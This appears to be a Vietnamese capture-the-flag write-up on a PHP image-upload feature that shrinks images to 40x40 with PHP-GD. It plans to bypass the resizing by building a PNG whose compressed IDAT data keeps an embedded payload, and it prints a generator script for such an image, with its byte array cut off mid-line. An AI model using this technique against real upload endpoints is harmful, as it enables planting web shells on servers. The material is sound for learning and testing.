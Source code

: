 Có một số điểm chú ý: 
- Sử dụng hàm `isset()` để kiểm tra xem biến `$_FILES['image']` có tồn tại hay không. Biến này sẽ chứa thông tin về tệp hình ảnh được tải lên.
- `$upload_dir`: Đường dẫn thư mục nơi hình ảnh sẽ được lưu trữ.
- `$file_name`: Tên của tệp hình ảnh ban đầu.
- `$file_tmp`: Đường dẫn tạm thời của tệp hình ảnh trên máy chủ.
- `$file_type`: Loại tệp (MIME type) của hình ảnh.
- `$file_ext`: Phần mở rộng của tên tệp hình ảnh (được chuyển thành chữ thường).

=> ứng dụng web cho phép tải lên một tệp hình ảnh từ người dùng, đồng thời thực hiện thu nhỏ hình ảnh thành 40x40 pixel nếu là ảnh JPEG hoặc PND.

- Giải thích cơ chế thu nhỏ ảnh:
Hàm `imagecopyresampled()` tạo ra một bản sao thu nhỏ của hình ảnh ban đầu, có kích thước 40x40 pixel. Đây là cách làm thường được sử dụng để tạo ra các phiên bản hình ảnh nhỏ hơn để hiển thị trên trang web hoặc ứng dụng mà không làm mất chất lượng quá nhiều.

Dưới đây là phần mã liên quan đến cơ chế nén ảnh:
```php
$cropped_image = imagecreatetruecolor(40, 40);
imagecopyresampled($cropped_image, $image, 0, 0, 0, 0, 40, 40, imagesx($image), imagesy($image));

```

- Ý tưởng:
    - upload ảnh chứa payload
    - payload cần phù hợp để khi bị nén cũng không bị mất đi dữ liệu
 
Mình tìm kiếm theo từ khóa `PHP-GD` thì thấy một số kỹ thuật hay:

Tham khảo ở đây: `https://book.hacktricks.xyz/pentesting-web/file-upload`

![](https://hackmd.io/_uploads/S1S0OiWah.png)


Xem các khai thác được cung cấp ta sử dụng các script này:

![](https://hackmd.io/_uploads/H1p-FjWpn.png)

Mình dùng script `payloads/generators/gen_idat_png.php`

```php
<?php
 
header('Content-Type: image/png');
 
$p = array(0xA3, 0x9F, 0x67, 0xF7, 0x0E, 0x93, 0x1B, 0x23, 0xBE, 0x2C, 0x8A, 0xD0, 0x80, 0xF9, 0xE1, 0xAE, 0x22, 0xF6, 0xD9, 0x43, 0x5D, 0xFB, 0xAE, 0xCC, 0x5A, 0x01, 0xDC, 0xAA, 0x52, 0xD0, 0xB6, 0xEE, 0xBB, 0x3A, 0xCF, 0x93, 0xCE, 0>
 
$img = imagecreatetruecolor(55, 55);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
$color = imagecolorallocate($img, $r, $g, $b);
imagesetpixel($img, round($y / 3)*2, 0, $color);
imagesetpixel($img, round($y / 3)*2+1, 0, $color);
imagesetpixel($img, round($y / 3)*2, 1, $color);
imagesetpixel($img, round($y / 3)*2+1, 1, $color);
}
 
imagepng($img);
?>

```
